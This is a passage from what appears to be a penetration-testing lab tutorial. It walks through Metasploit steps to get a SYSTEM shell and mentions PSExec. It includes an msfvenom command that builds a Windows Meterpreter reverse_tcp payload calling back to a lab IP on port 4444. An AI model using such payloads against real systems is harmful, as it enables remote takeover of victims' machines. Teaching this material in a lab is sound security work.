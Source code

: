      ![A screenshot depicts the options set correctly.](Images/msfsettings.PNG)

6. Run the module, and you should get a shell back as SYSTEM.

**Note:** We will explore PSExec more in the next lesson. For now, you just need to know that PSExec is a way of remotely administrating Windows machines. There is also a Metasploit module for it.

7. In a new terminal tab or window, generate a Meterpreter payload using `msfvenom` with the following command:

     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe`

     ![A screenshot depicts the results of the command.](Images/msfvenomservice.PNG)
